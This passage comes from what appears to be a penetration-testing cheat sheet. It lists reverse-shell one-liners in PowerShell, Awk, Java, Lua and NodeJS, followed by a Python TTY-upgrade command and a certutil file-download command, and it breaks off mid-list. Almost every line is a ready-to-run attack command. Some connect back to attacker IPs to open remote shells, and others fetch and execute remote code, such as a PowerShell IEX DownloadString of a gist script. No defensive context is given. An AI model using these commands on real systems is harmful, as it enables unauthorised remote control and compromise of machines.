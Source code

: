 		powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')

		powershell.exe -c -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("172.70.1.39",4040);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

	Awk:
		awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null

	Java:

		r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/172.70.1.39/4040;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor()
		
	Lua:

		Linux Only:

			lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','4242');os.execute('/bin/sh -i <&3 >&3 2>&3');"

		Windows or Linux:
			
			lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'

	NodeJS:

		require('child_process').exec('nc -e /bin/sh 10.0.0.1 4242')

		-var x = global.process.mainModule.require
		-x('child_process').exec('nc 10.0.0.1 4242 -e /bin/bash')	

---------------------------------------------------------------------------------------------------

## Upgrade to TTY shell - Python:

	python -c 'import pty; pty.spawn("/bin/bash")'

---------------------------------------------------------------------------------------------------

## Useful commands for Powershell

	Download files:

		certutil.exe -urlcache -f http://172.20.1.12/file.exe file.exe

	Find running processes:
